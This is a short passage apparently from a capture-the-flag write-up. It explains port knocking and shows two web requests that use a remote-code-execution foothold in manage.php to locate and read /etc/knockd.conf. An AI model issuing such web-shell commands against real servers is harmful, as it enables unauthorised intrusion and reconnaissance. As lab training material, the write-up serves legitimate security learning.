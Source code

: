 ## Port Knocking
Port Knocking is a method of externally opening ports on a firewall by generating a connection attempt on a set of prespecified closed ports.  

As we already have a nudge that there might be port knocking involved because we got a SSH key but nmap didn't gave any SSH port  
after we have RCE, rather than getting a reverse shell as www-data we can try to locate the knock config file to get the port knock sequence  
```
/manage.php?notes=/var/tmp/ninevehNotes.php&c=locate knock
```

![](images/locateKnock.png)

```
/manage.php?notes=/var/tmp/ninevehNotes.php&c=cat /etc/knockd.conf
```
